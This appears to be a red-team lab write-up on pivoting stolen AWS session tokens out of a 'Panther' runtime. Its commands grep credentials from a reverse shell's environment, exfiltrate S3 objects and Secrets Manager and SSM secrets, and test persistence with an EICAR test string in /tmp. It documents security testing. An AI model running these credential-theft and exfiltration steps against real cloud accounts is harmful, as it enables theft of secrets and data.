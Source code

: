 ## Token Pivoting

### Retrieving Access Keys

Within a Panther reverse shell session:

```bash
env | grep 'ACCESS\|SESSION'
```

### Accessing Private Resources

On your local machine, export the environment variables retrieved in the previous step:

```bash
export AWS_ACCESS_KEY_ID=<ENTER KEY ID>
export AWS_SECRET_ACCESS_KEY=<ENTER SECRET ACCESS KEY>
export AWS_SESSION_TOKEN=<ENTER SESSION TOKEN>
```

Run the following commands to exfiltrate S3 object data and secrets manager data:

```bash
aws s3api get-object --bucket panther-$UNIQUE_ID --key panther.jpg ~/Downloads
aws s3api get-object-tagging --bucket panther-fgageo0q --key panther.jpg

aws secretsmanager get-secret-value --secret-id $PANTHER_SECRET_ARN
```

Running the following test once per hour for expired keys:

```bash
while true; do aws ssm get-parameter --name /panther/database/password --with-decryption --region "$AWS_REGION"; date; sleep 3600; done
```

Expiration does not appear to occur until 12 hours after extracting the token.

## Persistence

Persisting a malware payload into the runtime environment. Only the `/tmp` directory is writable:

```
echo "Malware" > malware.sh

/bin/sh: line 2: malware.sh: Read-only file system

echo "Malware" > /tmp/malware.sh
ls /tmp/malware.sh

/tmp/malware.sh

echo "X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*" > /tmp/malware.sh
cat /tmp/malware.sh
X5O!P%@AP[4\PZX54(P^)7CC)7}-STANDARD-ANTIVIRUS-TEST-FILE!+H*
```

